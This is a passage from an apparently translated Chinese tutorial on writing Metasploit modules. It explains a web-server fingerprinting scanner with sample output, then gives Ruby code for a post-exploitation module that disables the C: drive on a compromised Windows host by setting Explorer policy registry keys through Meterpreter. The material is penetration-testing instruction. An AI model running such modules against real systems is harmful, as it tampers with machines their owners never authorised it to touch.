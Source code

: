 前面的模块与我们在第一个示例中讨论的模块类似。我们这里有`run_host`方法，`ip`作为参数，它将打开到主机的连接。接下来，我们有`send_request_raw`，它将通过`GET`请求从`/`的网站或 web 服务器获取响应。获取的结果将存储到名为`res`的变量中。

我们将`res`中响应的值传递给`os_fingerprint`方法。此方法将检查响应头中是否有`Server`键；如果`Server`键不存在，我们将看到一条消息，上面写着`Unknown OS`。

但是，如果响应头具有`Server`键，则我们使用正则表达式将其与各种值进行匹配。如果匹配，`os`的对应值被发送回调用定义，即`os_info`参数。

现在，我们将检查服务器上正在运行哪种技术。我们将创建一个类似的函数`pb_fingerprint`，但将查找`X-Powered-By`键，而不是`Server`。同样，我们将检查响应代码中是否存在该键。如果该键不存在，则该方法返回`No-Response`；如果存在，`X-Powered-By`的值将返回给调用方法，并存储在变量`pb`中。接下来，我们使用前面示例中使用的`http_fingerprint`方法，并将其结果存储在变量`fp`中。

我们只需使用`os_fingerprint`、`pb_fingerprint`和`http_fingerprint`对应的变量打印出返回的值。让我们看看运行此模块后将得到什么输出：

```
Msf auxiliary(http_myscan) > run
[*]192.168.75.130:80 is running Microsoft-IIS/7.5 version And Is Powered By: ASP.NET Running On Windows
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

## 编写开发后模块

现在，我们已经看到了模块构建的基础，我们可以进一步尝试构建一个后开发模块。这里需要记住的一点是，我们只能在目标成功妥协后运行攻击后模块。因此，让我们从一个简单的驱动器禁用模块开始，该模块将在目标系统上禁用`C:`：

```
require 'msf/core'
require 'rex'
require 'msf/core/post/windows/registry'
class Metasploit3 < Msf::Post
  include Msf::Post::Windows::Registry
  def initialize
    super(
        'Name'          => 'Drive Disabler Module',
        'Description'   => 'C Drive Disabler Module',
        'License'       => MSF_LICENSE,
        'Author' => 'Nipun Jaswal'
      )
  End
```

我们以与前面模块相同的方式开始。我们已经在这个后期开发模块中添加了所需的所有库的路径。但是，我们在前面代码的第 5 行添加了`include Msf::Post::Windows::Registry`，它引用了`/core/post/windows/registry.rb`文件。这将使我们能够使用 Ruby mixin 轻松地使用注册表操作函数。接下来，我们定义模块的类型和 Metasploit 的预期版本。在这种情况下，`Post`用于后期开发，`Metasploit3`是预期版本。我们再次包含同一个文件，因为这是一个单独的文件，而不是一个单独的目录。接下来，我们在`initialize`方法中定义关于模块的必要信息，就像我们对前面的模块所做的一样。让我们看看模块的其余部分：

```
def run
key1="HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\"
print_line("Disabling C Drive")
meterpreter_registry_setvaldata(key1,'NoDrives','4','REG_DWORD')
print_line("Setting No Drives For C")
meterpreter_registry_setvaldata(key1,'NoViewOnDrives','4','REG_DWORD')
print_line("Removing View On The Drive")
print_line("Disabled C Drive")
end
end #class
```
